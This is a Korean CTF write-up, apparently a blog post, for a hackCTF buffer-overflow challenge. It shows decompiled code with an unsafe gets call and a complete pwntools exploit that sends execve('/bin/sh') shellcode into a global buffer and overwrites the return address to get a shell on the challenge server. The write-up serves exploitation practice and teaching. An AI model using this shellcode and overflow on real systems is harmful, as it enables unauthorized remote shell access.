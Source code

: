 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
---
```


hackCTF pwnable 네번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u); // stdin으로부터 0x32바이트를 받아 name에 저장
  printf("input : ");
  gets(&s); // stdin에서 입력 받아 s에 저장
  return 0;
}
```
<br>

정리해보자.<br><br>

***

|   ret   |          |
|:-------:|:--------:|
|   sfp   |  (4byte) |
|   ebp   | esp+0x14 |
|   ...   |          |
| s (esp) |    esp   |

***
<br>
이번에는 read와 gets를 통해 입력 받을 수 있다. read를 통해 name에 쉘코드를 작성하고 gets를 통해 main 함수의 에필로그 과정에서 ret 대신 name의 쉘코드를 실행시키자<br><br>
목표 : name에 쉘코드 작성 + ret을 name의 주소로 덮기<br>
취약점 : gets(&s)<br><br><br>
+) name의 주소는 다음과 같이 .bss영역에 위치한다. 초기값이 없는 전역변수인 모양<br>
![0401](https://drive.google.com/uc?id=14EaC2vWFLHK-FQc2rLPv8xVBi1ZY0H7m)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*0x18+p32(0x0804A060)

p.recvuntil("Name : ")

p.send(payload)

p.recvuntil("input : ")

p.sendline(payload2)

p.interactive()
```
## 결과  
![0402](https://drive.google.com/uc?id=19pKWvGck62pXej_Gd1MQ-I4VVeLBke5C)
